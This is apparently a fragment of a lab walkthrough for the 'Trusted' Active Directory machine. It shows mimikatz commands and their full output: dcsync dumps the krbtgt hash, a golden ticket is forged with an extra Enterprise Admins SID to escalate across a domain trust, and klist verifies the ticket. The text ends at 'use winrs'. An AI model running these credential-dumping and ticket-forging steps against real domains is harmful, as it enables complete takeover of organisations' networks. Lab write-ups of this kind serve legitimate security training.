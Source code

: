 we also get TRUSTED.VL sid so lets do golden ticket.

## golden-ticket
    kerberos::golden /user:Administrator /domain:domain /sid:<lab.trusted.vl SID> /sids:<Entreprise Admins SID> /krbtgt:<hash> /ptt

Trust me its always work

for krbtgt hash we can use

    lsadump::dcsync /domain:lab.trusted.vl /all
    ** SAM ACCOUNT **

    SAM Username         : krbtgt
    User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
    Object Security ID   : S-1-5-21-2241985869-2159962460-1278545866-502
    Object Relative ID   : 502

    Credentials:
    Hash NTLM: c7a03c565c68c6fac5f8913fab576ebd
   
FULL COMMAND

    mimikatz # kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /ptt
    User      : Administrator
    Domain    : lab.trusted.vl (LAB)
    SID       : S-1-5-21-2241985869-2159962460-1278545866
    User Id   : 500
    Groups Id : *513 512 520 518 519 
    Extra SIDs: S-1-5-21-3576695518-347000760-3731839591-519 ; 
    ServiceKey: c7a03c565c68c6fac5f8913fab576ebd - rc4_hmac_nt      
    Lifetime  : 1/16/2025 2:17:47 AM ; 1/14/2035 2:17:47 AM ; 1/14/2035 2:17:47 AM
    -> Ticket : ** Pass The Ticket **

    * PAC generated
    * PAC signed
    * EncTicketPart generated
    * EncTicketPart encrypted
    * KrbCred generated

    Golden ticket for 'Administrator @ lab.trusted.vl' successfully submitted for current session

verified

    C:\ProgramData>klist
    klist

    Current LogonId is 0:0x2e9717

    Cached Tickets: (1)

    #0>     Client: Administrator @ lab.trusted.vl
            Server: krbtgt/lab.trusted.vl @ lab.trusted.vl
            KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
            Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
            Start Time: 1/16/2025 2:17:47 (local)
            End Time:   1/14/2035 2:17:47 (local)
            Renew Time: 1/14/2035 2:17:47 (local)
            Session Key Type: RSADSI RC4-HMAC(NT)
            Cache Flags: 0x1 -> PRIMARY 
            Kdc Called
use winrs

